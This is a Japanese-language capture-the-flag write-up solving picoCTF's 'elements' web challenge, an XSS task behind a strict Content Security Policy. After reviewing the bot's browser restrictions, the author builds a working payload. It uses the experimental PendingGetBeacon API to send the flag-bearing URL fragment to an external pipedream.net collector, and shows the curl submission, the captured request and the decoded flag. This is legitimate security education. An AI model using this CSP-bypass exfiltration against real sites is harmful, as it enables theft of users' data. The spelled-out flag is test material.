


# elements:Web Exploitation:500pts
Insert Standard Web Challenge Here.  
Source code: [`elements.tar.gz`](/)  
Craft some magic up [here](http://rhea.picoctf.net:56994/)  

# Solution
URLとソースが配布される。  
※ファイルサイズの問題でelements.tar.gzを分割している(`cat elements.tar.gz-?? > elements.tar.gz`で戻せる)。  
```
0657fbfc68bdcc940c3fab116eed76bcb3effc47  elements.tar.gz
1f40eab367eb3132420db6498fd57c2a04bb10e9  elements.tar.gz-00
fc4b0a401625369ba4484b01841f525bce45bdd7  elements.tar.gz-01
7f9755a71e356ba70f712386e61d7fda53133ded  elements.tar.gz-02
1f5afc935782f774fe22553bb83087acba9fe6d7  elements.tar.gz-03
```
URLにアクセスすると、二種類の素材を混合して新しい素材を作成するゲームのようだ。  
試しに、`Fire`と`Water`を混合すると`Steam`になり、`Earth`と`Air`を混合すると`Dust`となった。  
  
作った素材を用いてさらに新しい素材を作ることも可能なようだ。  
一通りゲームを楽しんだ後、配布されたソースを見る。  
ゲームを実現しているフロントのJavaScriptの主要部分は以下のようであった。  
```js
~~~
// these were all generated by ai, yes they have some really weird results
const recipes = [["Ash","Fire","Charcoal"],["Steam Engine","Water","Vapor"],
~~~
,["Geolocation","Location Tracking","Real-Time Positioning"]];

const elements = new Map([["Sauna","💦"],["Railway Engine","🚂"],
~~~
,["Paving Stone","🛠️"],["Artwork","🎨"]]);

const cache = new Map();

let found = new Map([['Fire', '🔥'], ['Water', '💧'], ['Earth', '🌍'], ['Air', '💨']]);

~~~

const evaluate = (...items) => {
	const [a, b] = items.sort();
	for (const [ingredientA, ingredientB, result] of recipes) {
		if (ingredientA === a && ingredientB == b) {
			if (result === 'XSS' && state.xss) {
				eval(state.xss);
			}
			return result;
		}
	}
	return null;
}

const colliding = (elementA, elementB) => {
	const [a, b] = [elementA.getBoundingClientRect(), elementB.getBoundingClientRect()];
	return a.right >= b.left && a.left <= b.right && a.bottom >= b.top && a.top <= b.bottom;
}

~~~

try {
	state = JSON.parse(atob(window.location.hash.slice(1)));
	for (const [a, b] of state.recipe) {
		if (!found.has(a) || !found.has(b)) {
			break;
		}
		const result = evaluate(a, b);
		found.set(result, elements.get(result));
	}
} catch(e) {}
```
定義された素材とレシピの配列を使ってゲームを実現しており、素材の座標が重なるとレシピ通りに新たな素材が作成される。  
初めに所持している素材は`['Fire', '🔥'], ['Water', '💧'], ['Earth', '🌍'], ['Air', '💨']`の4つであるようで、素材は新たに作成すると追加される。  
また、`window.location.hash.slice(1)`からbase64エンコードされたJSON文字列を受け取り、`recipe`要素の配列で素材の自動作成が行えるようである(セーブ読み込みのような機能)。  
その際に作成された素材が`XSS`である場合に、JSONの`xss`要素のテキストを`eval`している。  
明らかにXSS問題のようで`eval`を走らせるのがゴールであるとわかるので、まずは素材`XSS`を作る必要がある。   
`XSS`を根とする木構造としてレシピを逆にたどり、葉が4つの初めに所持している素材になるまで幅優先探索を行えばよい。  
自動化してもよいが、手動でも問題なく作成できる。  
以下の通りになる。  
```
["Exploit", "Web Design", "XSS"]
-----
["Cybersecurity", "Vulnerability", "Exploit"]
["Internet", "Program", "Web Design"]
-----
["Encryption", "Software", "Cybersecurity"]
["Glass", "Software", "Vulnerability"]
["Air", "Rock", "Internet"]
["Computer Chip", "Software", "Program"]
-----
["Artificial Intelligence", "Data", "Encryption"]
["Fire", "Sand", "Glass"]
["Magma", "Mist", "Rock"]
["Computer Chip", "Electricity", "Software"]
-----
["Computer Chip", "Steam Engine", "Artificial Intelligence"]
["Computer Chip", "Fire", "Data"]
["Dust", "Heat Engine", "Sand"]
["Hot Spring", "Steam Engine", "Electricity"]
-----
["Earth", "Obsidian", "Computer Chip"]
["Air", "Earth", "Dust"]
["Fire", "Steam Engine", "Heat Engine"]
-----
["Hot Spring", "Sludge", "Steam Engine"]
-----
["Obsidian", "Water", "Hot Spring"]
["Fog", "Mud", "Sludge"]
-----
["Magma", "Mud", "Obsidian"]
["Fire", "Mist", "Fog"]
-----
["Earth", "Fire", "Magma"]
["Earth", "Water", "Mud"]
["Air", "Water", "Mist"]
```
これを逆順にしたものが`XSS`生成のレシピとなる。  
```js
[
["Air", "Water"], 
["Earth", "Water"], 
["Earth", "Fire"], 
["Fire", "Mist"], 
["Magma", "Mud"], 
["Fog", "Mud"], 
["Obsidian", "Water"], 
["Hot Spring", "Sludge"], 
["Fire", "Steam Engine"], 
["Air", "Earth"], 
["Earth", "Obsidian"], 
["Hot Spring", "Steam Engine"], 
["Dust", "Heat Engine"], 
["Computer Chip", "Fire"], 
["Computer Chip", "Steam Engine"], 
["Computer Chip", "Electricity"], 
["Magma", "Mist"], 
["Fire", "Sand"], 
["Artificial Intelligence", "Data"], 
["Computer Chip", "Software"], 
["Air", "Rock"], 
["Glass", "Software"], 
["Encryption", "Software"], 
["Internet", "Program"], 
["Cybersecurity", "Vulnerability"], 
["Exploit", "Web Design"]
]
```
素材`XSS`が完成し、任意のJavaScriptを`eval`できる。  
次にフラグの場所を確認するため、サーバーのソースを見る。  
```js
import { createServer } from 'node:http';
import assert from 'node:assert';
import { spawn } from 'node:child_process';
import { mkdir, mkdtemp, writeFile, rm, readFile } from 'node:fs/promises';
import { tmpdir } from 'node:os';
import { join } from 'node:path';

const sleep = delay => new Promise(res => setTimeout(res, delay));

const html = await readFile('static/index.html', 'utf-8');
const js = await readFile('static/index.js', 'utf-8');
const flag = await readFile('flag.txt', 'utf-8');

let visiting = false;

async function visit(state) {
	if (visiting) return;
	visiting = true;

	state = {...state, flag }

	const userDataDir = await mkdtemp(join(tmpdir(), 'elements-'));

	await mkdir(join(userDataDir, 'Default'));
	await writeFile(join(userDataDir, 'Default', 'Preferences'), JSON.stringify({
		net: {
			network_prediction_options: 2
		}
	}));

	const proc = spawn(
		'/usr/bin/chromium-browser-unstable', [
			`--user-data-dir=${userDataDir}`,
			'--profile-directory=Default',
			'--no-sandbox',
			'--js-flags=--noexpose_wasm,--jitless',
			'--disable-gpu',
			'--no-first-run',
			'--enable-experimental-web-platform-features',
			`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`
		],
		{ detached: true }
	)

	await sleep(10000);
	try {
		process.kill(-proc.pid)
	} catch(e) {}
	await sleep(500);

	await rm(userDataDir, { recursive: true, force: true, maxRetries: 10 });

	visiting = false;
}

createServer((req, res) => {
	const url = new URL(req.url, 'http://127.0.0.1');

	const csp =  [
		"default-src 'none'",
		"style-src 'unsafe-inline'",
		"script-src 'unsafe-eval' 'self'",
		"frame-ancestors 'none'",
		"worker-src 'none'",
		"navigate-to 'none'"
	]

	// no seriously, do NOT attack the online-mode server!
	// the solution literally CANNOT use it!
	if (req.headers.host !== '127.0.0.1:8080') {
		csp.push("connect-src https://elements.attest.lol/");
	}

	res.setHeader('Content-Security-Policy', csp.join('; '));
	res.setHeader('Cross-Origin-Opener-Policy', 'same-origin');
	res.setHeader('X-Frame-Options', 'deny');
	res.setHeader('X-Content-Type-Options', 'nosniff');

	if (url.pathname === '/') {
		res.setHeader('Content-Type', 'text/html');
		return res.end(html);
	} else if (url.pathname === '/index.js') {
		res.setHeader('Content-Type', 'text/javascript');
		return res.end(js);
	} else if (url.pathname === '/remoteCraft') {
		try {
			const { recipe, xss } = JSON.parse(url.searchParams.get('recipe'));
			assert(typeof xss === 'string');
			assert(xss.length < 300);
			assert(recipe instanceof Array);
			assert(recipe.length < 50);
			for (const step of recipe) {
				assert(step instanceof Array);
				assert(step.length === 2);
				for (const element of step) {
					assert(typeof xss === 'string');
					assert(element.length < 50);
				}
			}
			visit({ recipe, xss });
		} catch(e) {
			console.error(e);
			return res.writeHead(400).end('invalid recipe!');
		}
		return res.end('visiting!');
	}

	return res.writeHead(404).end('not found');
}).listen(8080);
```
サーバはクローラの役割も果たしており、`/remoteCraft`で受け取ったクエリパラメータ`recipe`を`JSON.parse`してから`recipe`と`xss`を取得し、型や長さを検証している(`element`の型検査をミスっているが)。  
さらにそれらを`visit`関数へ受け渡している。  
`visit`関数はクローラ本体で、ソースに含まれていたchromiumを使ってフロントの素材作成ゲームにアクセスする。  
その際に、受け取った`recipe`と`xss`を含むオブジェクトに`flag`を追加して、`JSON.stringify`しbase64エンコードしたものをURLフラグメントとして付加している。  
問題設定を要約すると、ユーザから受け取った`recipe`と`xss`を読み込んだ素材作成ゲームでXSSして、URLフラグメントに追加されている`flag`を取得しろとのことらしい。  
`eval`ができるレシピを持っているので、XSSでURLフラグメントを外部サーバに送信すればいいと思うが、以下の各種制限がある。  

**制限1. CSPでの制限**  
ページには以下の通り、かなり強固なCSPがついている。  
```js
	const csp =  [
		"default-src 'none'",
		"style-src 'unsafe-inline'",
		"script-src 'unsafe-eval' 'self'",
		"frame-ancestors 'none'",
		"worker-src 'none'",
		"navigate-to 'none'"
	]
```
基本的となる、外部に情報を送信するテクニックは以下が[知られている]((https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src))。  

- a tag ping  
- fetch  
- XMLHttpRequest  
- WebSocket  
- EventSource  
- Navigator.sendBeacon  

今回は`connect-src`ディレクティブがないため、全てのテクニックが`default-src 'none'`でブロックされる。  
iframeタグで読み込んでやる手法も`frame-ancestors 'none'`に阻まれるし、formなどでの遷移は`navigate-to 'none'`で禁止されている。  
`s = window.open`の後に`s.eval`するような手も使えない(そもそもポップアップブロックもある)。  
CSPが効いてこないリクエストを送信できそうなサービスワーカーも`worker-src 'none'`で禁止されている。  

**制限2. ブラウザポリシーでの制限**  
Dockerfileを見ると`policy.json`なるものを指定している。  
```Dockerfile
FROM --platform=amd64 node:21-bookworm-slim

ADD chrome.deb /tmp/chrome.deb
RUN apt-get update && \
	apt-get install -y /tmp/chrome.deb && \
	apt-get install -y xvfb && \
	rm -rf /var/lib/apt/lists/* /tmp/chrome.deb

WORKDIR /app

COPY flag.txt .
COPY index.mjs start_display.sh ./
COPY static ./static
COPY policy.json /etc/chromium/policies/managed/policy.json

CMD ./start_display.sh & DISPLAY=:99.0 su node -c "node index.mjs"
```
内容は以下であった。  
```json
{"URLAllowlist":["127.0.0.1:8080"],"URLBlocklist":["*"]}
```
その名の通りブラウザのポリシーを設定することができるファイルのようで、アクセス可能なURLを`127.0.0.1:8080`だけにしている。  
これによって特定の条件でmetaタグで遷移し、リクエストをオラクルとするテクニックが無効化されている。  

**制限3. WebRTC機能の削除**  
chromium.diffなるファイルがソースに含まれているため、chromium自体も改造されているらしい。  
内容は以下であった。  
```diff
diff --git a/third_party/blink/renderer/modules/peerconnection/rtc_peer_connection.idl b/third_party/blink/renderer/modules/peerconnection/rtc_peer_connection.idl
index f0948629cb..393e7c77e0 100644
--- a/third_party/blink/renderer/modules/peerconnection/rtc_peer_connection.idl
+++ b/third_party/blink/renderer/modules/peerconnection/rtc_peer_connection.idl
@@ -61,10 +61,7 @@ enum RTCPeerConnectionState {
 // https://w3c.github.io/webrtc-pc/#interface-definition

 [
-    ActiveScriptWrappable,
-    Exposed=Window,
-    LegacyWindowAlias=webkitRTCPeerConnection,
-    LegacyWindowAlias_Measure
+    ActiveScriptWrappable
 ] interface RTCPeerConnection : EventTarget {
     // TODO(https://crbug.com/1318448): Deprecated `mediaConstraints` should be removed.
     [CallWith=ExecutionContext, RaisesException] constructor(optional RTCConfiguration configuration = {}, optional GoogMediaConstraints mediaConstraints);
```
`RTCPeerConnection`や`webkitRTCPeerConnection`をWindowから見えないようにパッチを当てている。  
WebRTCではDNS解決を利用して、サブドメインから情報を外部に送信するCSPバイパス手法が[知られている](https://book.hacktricks.xyz/v/jp/pentesting-web/content-security-policy-csp-bypass#webrtc)。  
これを無効化する意図がありそうだ。  
ちなみにChromiumは`Version 122.0.6261.111 (Developer Build) unstable (64-bit)`であり、新しい。  

**制限4. プリロード機能の無効化**  
ソース中で`elements-`から始まるランダムなユーザディレクトリを作成し、以下のようにのファイルを書き込んでいる。  
```js
	const userDataDir = await mkdtemp(join(tmpdir(), 'elements-'));

	await mkdir(join(userDataDir, 'Default'));
	await writeFile(join(userDataDir, 'Default', 'Preferences'), JSON.stringify({
		net: {
			network_prediction_options: 2
		}
	}));
```
この`network_prediction_options: 2`という設定を行うと、HTML要素などのプリロード(先読み機能)をoffになる。  
linkタグのdns-prefetchを利用して、WebRTCと同じくDNS解決でCSPをバイパスする手法が[知られている](https://book.hacktricks.xyz/v/jp/pentesting-web/content-security-policy-csp-bypass#dns-prefetch)が、これも無効化されている。  

ここまでで、一般にCSPをバイパスして情報を持ち出す手法が全てブロックされていることが分かった。  
ちなみに開発者ツールが開いている場合に`sourceMappingURL`でリクエストを飛ばすテクニックがあるが今回は使えない。  
総合すると、新しいCSPバイパスのデータ持ち出しテクニックを探せということのようだ。  
[Chromium Issue Tracker](https://issues.chromium.org/issues)でIssueを探すも、何も見つからない。  
ここでクローラ部分のソースを見ていると以下の箇所が気になる。  
```js
~~~
	const proc = spawn(
		'', [
			`--user-data-dir=${userDataDir}`,
			'--profile-directory=Default',
			'--no-sandbox',
			'--js-flags=--noexpose_wasm,--jitless',
			'--disable-gpu',
			'--no-first-run',
			'--enable-experimental-web-platform-features',
			`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state))}`
		],
		{ detached: true }
	)
~~~
```
あまり見ることのない`--enable-experimental-web-platform-features`なるオプションがついている。  
これは試験運用中の機能を有効化するオプションであるため、何らかの試験的な機能を用いるのではないかと予想する。  
試験的な機能にはCSPの制限がかかっていないこともある。  
[Chrome Platform Status](https://chromestatus.com/roadmap)から追加された機能が確認できるので、各バージョンの試験的な機能の中でネットワークリクエストを発生させるようなものを探す。  
するとChrome 121で[fetchLater API](https://chromestatus.com/feature/4654499737632768)なる機能がOrigin trialとして入っている。  
  
[ドキュメント](https://github.com/WICG/pending-beacon/blob/main/docs/fetch-later-api.md)を見に行くと、名前の通り遅延してfetchしてくれるらしい。  
しかし、有効ではなかったため代替案を探していると同じページに`PendingBeacon API (deprecated)`なる[ドキュメント](https://github.com/WICG/pending-beacon/blob/main/docs/pending-beacon-api.md)があることに気づく。  
これもページが破棄された際にリクエストを飛ばすAPIのようだ(ただしHTTPSにのみ送信できるという制限もある)。  
試しに各種制限を盛り込んだChromium環境で利用すると、実際にリクエストを外部へ送信できることが判明した。  
ここで一つ問題がある。  
`PendingBeacon API`はページが破棄された際にリクエストが飛ぶが、今回のクローラは以下のように`process.kill`されている。  
```js
~~~
	try {
		process.kill(-proc.pid)
	} catch(e) {}
~~~
```
そのため、ページ破棄の際のリクエストが飛んでこない。  
困ってドキュメントを読むと`timeout`なるオプションを付けることで、ページ破棄させずとも一定時間経過するとリクエストを送れるようだ。  
以下のようなJavaScriptで外部へのリクエスト送信を達成できる。  
```js
beacon = new PendingGetBeacon('https://example.com/', {timeout: 1000});
```
あとはURLフラグメントを外部URLのクエリとして指定して、HTTPSが使えるRequestBinなどに投げてやればよい。  
最終的な`/remoteCraft`に送信するJSONは以下の通りになる。  
```json
{"recipe": [["Air", "Water"], ["Earth", "Water"], ["Earth", "Fire"], ["Fire", "Mist"], ["Magma", "Mud"], ["Fog", "Mud"], ["Obsidian", "Water"], ["Hot Spring", "Sludge"], ["Fire", "Steam Engine"], ["Air", "Earth"], ["Earth", "Obsidian"], ["Hot Spring", "Steam Engine"], ["Dust", "Heat Engine"], ["Computer Chip", "Fire"], ["Computer Chip", "Steam Engine"], ["Computer Chip", "Electricity"], ["Magma", "Mist"], ["Fire", "Sand"], ["Artificial Intelligence", "Data"], ["Computer Chip", "Software"], ["Air", "Rock"], ["Glass", "Software"], ["Encryption", "Software"], ["Internet", "Program"], ["Cybersecurity", "Vulnerability"], ["Exploit", "Web Design"]], "xss": "new PendingGetBeacon('https://en38dskqgizlb.x.pipedream.net/?satoki=' + window.location.hash.slice(1), {timeout: 1000});"}
```
これをURLエンコードして投げてやる。  
```bash
$ curl -X POST 'http://rhea.picoctf.net:56994/remoteCraft?recipe=%7B%22recipe%22%3A%20%5B%5B%22Air%22%2C%20%22Water%22%5D%2C%20%5B%22Earth%22%2C%20%22Water%22%5D%2C%20%5B%22Earth%22%2C%20%22Fire%22%5D%2C%20%5B%22Fire%22%2C%20%22Mist%22%5D%2C%20%5B%22Magma%22%2C%20%22Mud%22%5D%2C%20%5B%22Fog%22%2C%20%22Mud%22%5D%2C%20%5B%22Obsidian%22%2C%20%22Water%22%5D%2C%20%5B%22Hot%20Spring%22%2C%20%22Sludge%22%5D%2C%20%5B%22Fire%22%2C%20%22Steam%20Engine%22%5D%2C%20%5B%22Air%22%2C%20%22Earth%22%5D%2C%20%5B%22Earth%22%2C%20%22Obsidian%22%5D%2C%20%5B%22Hot%20Spring%22%2C%20%22Steam%20Engine%22%5D%2C%20%5B%22Dust%22%2C%20%22Heat%20Engine%22%5D%2C%20%5B%22Computer%20Chip%22%2C%20%22Fire%22%5D%2C%20%5B%22Computer%20Chip%22%2C%20%22Steam%20Engine%22%5D%2C%20%5B%22Computer%20Chip%22%2C%20%22Electricity%22%5D%2C%20%5B%22Magma%22%2C%20%22Mist%22%5D%2C%20%5B%22Fire%22%2C%20%22Sand%22%5D%2C%20%5B%22Artificial%20Intelligence%22%2C%20%22Data%22%5D%2C%20%5B%22Computer%20Chip%22%2C%20%22Software%22%5D%2C%20%5B%22Air%22%2C%20%22Rock%22%5D%2C%20%5B%22Glass%22%2C%20%22Software%22%5D%2C%20%5B%22Encryption%22%2C%20%22Software%22%5D%2C%20%5B%22Internet%22%2C%20%22Program%22%5D%2C%20%5B%22Cybersecurity%22%2C%20%22Vulnerability%22%5D%2C%20%5B%22Exploit%22%2C%20%22Web%20Design%22%5D%5D%2C%20%22xss%22%3A%20%22new%20PendingGetBeacon%28%27https%3A%2F%2Fen38dskqgizlb%2Ex%2Epipedream%2Enet%2F%3Fsatoki%3D%27%20%2B%20window%2Elocation%2Ehash%2Eslice%281%29%2C%20%7Btimeout%3A%201000%7D%29%3B%22%7D'
visiting!
```
すると以下のようなリクエストが、待ち受けたサーバへ到達する。  
```
GET
/?satoki=eyJyZWNpcGUiOltbIkFpciIsIldhdGVyIl0sWyJFYXJ0aCIsIldhdGVyIl0sWyJFYXJ0aCIsIkZpcmUiXSxbIkZpcmUiLCJNaXN0Il0sWyJNYWdtYSIsIk11ZCJdLFsiRm9nIiwiTXVkIl0sWyJPYnNpZGlhbiIsIldhdGVyIl0sWyJIb3QgU3ByaW5nIiwiU2x1ZGdlIl0sWyJGaXJlIiwiU3RlYW0gRW5naW5lIl0sWyJBaXIiLCJFYXJ0aCJdLFsiRWFydGgiLCJPYnNpZGlhbiJdLFsiSG90IFNwcmluZyIsIlN0ZWFtIEVuZ2luZSJdLFsiRHVzdCIsIkhlYXQgRW5naW5lIl0sWyJDb21wdXRlciBDaGlwIiwiRmlyZSJdLFsiQ29tcHV0ZXIgQ2hpcCIsIlN0ZWFtIEVuZ2luZSJdLFsiQ29tcHV0ZXIgQ2hpcCIsIkVsZWN0cmljaXR5Il0sWyJNYWdtYSIsIk1pc3QiXSxbIkZpcmUiLCJTYW5kIl0sWyJBcnRpZmljaWFsIEludGVsbGlnZW5jZSIsIkRhdGEiXSxbIkNvbXB1dGVyIENoaXAiLCJTb2Z0d2FyZSJdLFsiQWlyIiwiUm9jayJdLFsiR2xhc3MiLCJTb2Z0d2FyZSJdLFsiRW5jcnlwdGlvbiIsIlNvZnR3YXJlIl0sWyJJbnRlcm5ldCIsIlByb2dyYW0iXSxbIkN5YmVyc2VjdXJpdHkiLCJWdWxuZXJhYmlsaXR5Il0sWyJFeHBsb2l0IiwiV2ViIERlc2lnbiJdXSwieHNzIjoibmV3IFBlbmRpbmdHZXRCZWFjb24oJ2h0dHBzOi8vZW4zOGRza3FnaXpsYi54LnBpcGVkcmVhbS5uZXQvP3NhdG9raT0nICsgd2luZG93LmxvY2F0aW9uLmhhc2guc2xpY2UoMSksIHt0aW1lb3V0OiAxMDAwfSk7IiwiZmxhZyI6InBpY29DVEZ7bGl0dGxlX2FsY2hlbXlfd2FzX3RoZV8wZ19nYW1lX2RvZXNfYW55b25lX3JlbWVtYjNyXzk4ODlmZDRhfSBidHcgY29udGFjdCBtZSBvbiBkaXNjb3JkIHdpdGggdXIgc29sdXRpb24gdGhhbmtzIEBlaGh0aGluZ1xuIn0=
```
base64デコードする。
```bash
$ echo -n 'eyJyZWNpcGUiOltbIkFpciIsIldhdGVyIl0sWyJFYXJ0aCIsIldhdGVyIl0sWyJFYXJ0aCIsIkZpcmUiXSxbIkZpcmUiLCJNaXN0Il0sWyJNYWdtYSIsIk11ZCJdLFsiRm9nIiwiTXVkIl0sWyJPYnNpZGlhbiIsIldhdGVyIl0sWyJIb3QgU3ByaW5nIiwiU2x1ZGdlIl0sWyJGaXJlIiwiU3RlYW0gRW5naW5lIl0sWyJBaXIiLCJFYXJ0aCJdLFsiRWFydGgiLCJPYnNpZGlhbiJdLFsiSG90IFNwcmluZyIsIlN0ZWFtIEVuZ2luZSJdLFsiRHVzdCIsIkhlYXQgRW5naW5lIl0sWyJDb21wdXRlciBDaGlwIiwiRmlyZSJdLFsiQ29tcHV0ZXIgQ2hpcCIsIlN0ZWFtIEVuZ2luZSJdLFsiQ29tcHV0ZXIgQ2hpcCIsIkVsZWN0cmljaXR5Il0sWyJNYWdtYSIsIk1pc3QiXSxbIkZpcmUiLCJTYW5kIl0sWyJBcnRpZmljaWFsIEludGVsbGlnZW5jZSIsIkRhdGEiXSxbIkNvbXB1dGVyIENoaXAiLCJTb2Z0d2FyZSJdLFsiQWlyIiwiUm9jayJdLFsiR2xhc3MiLCJTb2Z0d2FyZSJdLFsiRW5jcnlwdGlvbiIsIlNvZnR3YXJlIl0sWyJJbnRlcm5ldCIsIlByb2dyYW0iXSxbIkN5YmVyc2VjdXJpdHkiLCJWdWxuZXJhYmlsaXR5Il0sWyJFeHBsb2l0IiwiV2ViIERlc2lnbiJdXSwieHNzIjoibmV3IFBlbmRpbmdHZXRCZWFjb24oJ2h0dHBzOi8vZW4zOGRza3FnaXpsYi54LnBpcGVkcmVhbS5uZXQvP3NhdG9raT0nICsgd2luZG93LmxvY2F0aW9uLmhhc2guc2xpY2UoMSksIHt0aW1lb3V0OiAxMDAwfSk7IiwiZmxhZyI6InBpY29DVEZ7bGl0dGxlX2FsY2hlbXlfd2FzX3RoZV8wZ19nYW1lX2RvZXNfYW55b25lX3JlbWVtYjNyXzk4ODlmZDRhfSBidHcgY29udGFjdCBtZSBvbiBkaXNjb3JkIHdpdGggdXIgc29sdXRpb24gdGhhbmtzIEBlaGh0aGluZ1xuIn0=' | base64 -d
{"recipe":[["Air","Water"],["Earth","Water"],["Earth","Fire"],["Fire","Mist"],["Magma","Mud"],["Fog","Mud"],["Obsidian","Water"],["Hot Spring","Sludge"],["Fire","Steam Engine"],["Air","Earth"],["Earth","Obsidian"],["Hot Spring","Steam Engine"],["Dust","Heat Engine"],["Computer Chip","Fire"],["Computer Chip","Steam Engine"],["Computer Chip","Electricity"],["Magma","Mist"],["Fire","Sand"],["Artificial Intelligence","Data"],["Computer Chip","Software"],["Air","Rock"],["Glass","Software"],["Encryption","Software"],["Internet","Program"],["Cybersecurity","Vulnerability"],["Exploit","Web Design"]],"xss":"new PendingGetBeacon('https://en38dskqgizlb.x.pipedream.net/?satoki=' + window.location.hash.slice(1), {timeout: 1000});","flag":"picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a} btw contact me on discord with ur solution thanks @ehhthing\n"}
```
flagが含まれていた。  

## picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}